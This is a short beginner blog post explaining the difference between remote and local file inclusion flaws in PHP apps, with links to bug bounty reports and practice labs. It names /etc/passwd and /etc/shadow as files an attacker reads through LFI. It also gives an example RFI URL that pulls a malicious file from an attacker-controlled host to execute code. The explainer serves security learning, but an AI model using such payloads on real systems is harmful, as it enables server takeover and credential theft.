

# 
 RFI and LFI, how to find them and what’s the difference between them? 

Hello everyone!   Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code> include() </code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
 
Let's see now:
 
In the easiest way if we want to explain it, we'll say it like this  
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
 

  

 
On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in 
RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
You could execute malicious code from the <code> file.php </code> file and use it for evil intention.  
 
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂.  
 
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a>    
<a href="https://hackerone.com/reports/895972"> Limited LFI </a>    
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a>    

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a>    
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a>    
<a href="https://dvwa.co.uk/"> DVWA </a>    

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot don't forget to join <a href="discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

